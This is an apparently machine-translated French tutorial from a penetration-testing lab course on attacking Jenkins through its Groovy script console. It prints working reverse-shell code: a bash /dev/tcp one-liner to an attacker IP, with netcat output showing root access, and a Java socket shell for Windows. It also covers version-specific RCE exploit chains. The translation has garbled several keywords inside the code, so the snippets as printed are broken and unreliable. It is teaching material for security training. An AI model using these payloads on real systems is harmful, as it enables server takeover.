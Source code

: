 Attaquer Jenkins
=================

* * * * *

Nous avons confirmé que l'hôte exécute Jenkins et qu'il est configuré avec des informations d'identification faibles. Vérifions et voyons quel type d'accès cela nous donnera.

Une fois que nous avons obtenu l'accès à une application Jenkins, un moyen rapide d'exécuter une commande sur le serveur sous-jacent consiste à utiliser [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) . La console de script nous permet d'exécuter des scripts Groovy arbitraires dans l'environnement d'exécution du contrôleur Jenkins. Cela peut être utilisé de manière abusive pour exécuter des commandes du système d'exploitation sur le serveur sous-jacent. Jenkins est souvent installé dans le contexte du compte root ou SYSTEM, donc cela peut être une victoire facile pour nous.

* * * * *

Console de scripts
--------------

La console de script est accessible à l'URL `http://jenkins.inlanefreight.local:8000/script`. Cette console permet à un utilisateur d'exécuter des scripts Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) , qui sont un langage compatible Java orienté objet. Le langage est similaire à Python et Ruby. Le code source Groovy est compilé en Java Bytecode et peut s'exécuter sur n'importe quelle plate-forme sur laquelle JRE est installé.

À l'aide de cette console de script, il est possible d'exécuter des commandes arbitraires, fonctionnant de la même manière qu'un shell Web. Par exemple, nous pouvons utiliser l'extrait de code suivant pour exécuter la commande `id` .

Code : groovy

```
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sud

```

![](https://academy.hackthebox.com/storage/modules/113/groovy_web.png)

L'accès à la console de script peut être exploité de différentes manières pour obtenir un shell inversé. Par exemple, en utilisant la commande ci-dessous ou [this](https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console) module Metasploit.

Code : groovy

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; fait"] en tant que chaîne[])
p.waitFor()

```

L'exécution des commandes ci-dessus entraîne une connexion shell inversée.

```
dsgsec@htb[/htb]$ nc -lvnp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.15] depuis (INCONNU) [10.129.201.58] 57844

identifiant

uid=0(racine) gid=0(racine) groupes=0(racine)

/bin/bash-i

root@app02 :/var/lib/jenkins3#

```

Contre un hôte Windows, nous pourrions essayer d'ajouter un utilisateur et de se connecter à l'hôte via RDP ou WinRM ou, pour éviter de modifier le système, utiliser une station de téléchargement PowerShell avec [Invoke-PowerShellTcp.ps1](https:// github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Nous pourrions exécuter des commandes sur une installation Jenkins basée sur Windows en utilisant cet extrait :

Code : groovy

```
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");

```

Nous pourrions également utiliser [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell pour obtenir l'exécution de commandes sur un hôte Windows, en remplaçant `localhost` et le port pour notre adresse IP et notre port d'écoute.

Code : groovy

```
Chaîne host="localhost" ;
port int=8044 ;
Chaîne cmd="cmd.exe" ;
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s. getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read() );while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush(); po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

* * * * *

Vulnérabilités diverses
-----------------------------

Plusieurs vulnérabilités d'exécution de code à distance existent dans différentes versions de Jenkins. Un exploit récent combine deux vulnérabilités, CVE-2018-1999002 et [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) pour obtenir une connexion à distance pré-authentifiée. l'exécution du code, en contournant la protection du bac à sable de sécurité des scripts lors de la compilation des scripts. Des PoC d'exploit publics existent pour exploiter une faille dans le routage dynamique Jenkins afin de contourner l'ACL globale/de lecture et d'utiliser Groovy pour télécharger et exécuter un fichier JAR malveillant. Cette faille permet aux utilisateurs disposant d'autorisations de lecture de contourner les protections du bac à sable et d'exécuter du code sur le serveur maître Jenkins. Cet exploit fonctionne avec la version 2.137 de Jenkins.

Une autre vulnérabilité existe dans Jenkins 2.150.2, qui permet aux utilisateurs disposant des privilèges de création de JOB et de BUILD d'exécuter du code sur le système via Node.js. Cette vulnérabilité nécessite une authentification, mais si les utilisateurs anonymes sont activés, l'exploit réussira car ces utilisateurs disposent par défaut des privilèges de création de JOB et de BUILD.

Comme nous l'avons vu, l'accès à Jenkins en tant qu'administrateur peut rapidement conduire à l'exécution de code à distance. Bien que plusieurs exploits RCE fonctionnels existent pour Jenkins, ils sont spécifiques à la version. Au moment de la rédaction de cet article, la version LTS actuelle de Jenkins est la 2.303.1, quih corrige les deux défauts détaillés ci-dessus. Comme pour toute application ou système, il est important de renforcer Jenkins autant que possible, car les fonctionnalités intégrées peuvent être facilement utilisées pour prendre en charge le serveur sous-jacent.

* * * * *

Changement de vitesse
--------------

Nous avons couvert diverses manières dont les applications populaires de développement de CMS et de conteneurs de servlets/logiciels peuvent être abusées pour exploiter à la fois des vulnérabilités connues et des fonctionnalités intégrées. Concentrons-nous un peu sur deux outils de surveillance d'infrastructure/réseau bien connus : Splunk et PRTG Network Monitor.